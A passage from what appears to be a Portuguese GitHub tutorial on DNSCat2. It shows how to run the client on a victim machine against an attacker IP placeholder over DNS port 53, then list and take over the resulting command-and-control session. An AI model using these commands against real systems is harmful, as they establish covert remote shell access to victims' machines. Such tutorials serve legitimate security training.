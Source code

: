 Para estabelecer uma conexão entre cliente e servidor, use o seguinte comando:

```zsh
./dnscat --dns=server=[IP-ATACANTE],port=53
```

<p align="center">
  <img src="Imagens/conexão shell.png" >
 <br>
  Figura 6: Conexão com o DNSCat2 da Vítima.
</p>

### Etapa II: Estabelecendo conexão C2 via DNS

Uma vez que a conexão é estabelecida, você pode ver no lado do servidor que você terá uma sessão como mostrado na imagem abaixo. Agora, aqui podemos explorar muitas opções, todas disponíveis na categoria `help`.

Podemos listar as sessões ativas no servidor DNSCat2 com o comando `sessions` para verificar se uma sessão foi criada. 

Agora, para interagir com a referida sessão digite o seguinte comando:

```zsh
session -i 1
```

<p align="center">
  <img src="Imagens/sessao criada dnscat2.png" >
 <br>
  Figura 7: Sessão Criada com DNSCat2.
</p>
